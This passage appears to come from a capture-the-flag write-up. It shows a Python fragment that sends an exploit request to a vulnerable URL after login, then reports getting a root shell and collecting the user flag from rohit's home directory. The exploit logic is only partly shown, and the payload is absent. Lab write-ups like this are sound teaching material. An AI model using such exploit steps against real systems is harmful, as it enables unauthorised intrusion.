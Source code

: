 ```python

if login_request.status_code == 200:
		print("Running exploit...")
# make GET request to vulnerable url with payload. Probably a better way to do this but if the request times out then most likely you have caught the shell
		try:
			exploit_request = client.get(exploit_url, cookies=client.cookies, headers=headers, timeout=5)
			if exploit_request.status_code:
				print("Error running exploit")
		except:
			print("Exploit completed")
```

Running the exploit, I was able to get a shell as root.

![Untitled](uploads/Untitled%203.png)

## Getting User.txt

I collected the user flag from rohit’s home directory

![Untitled](uploads/Untitled%204.png)
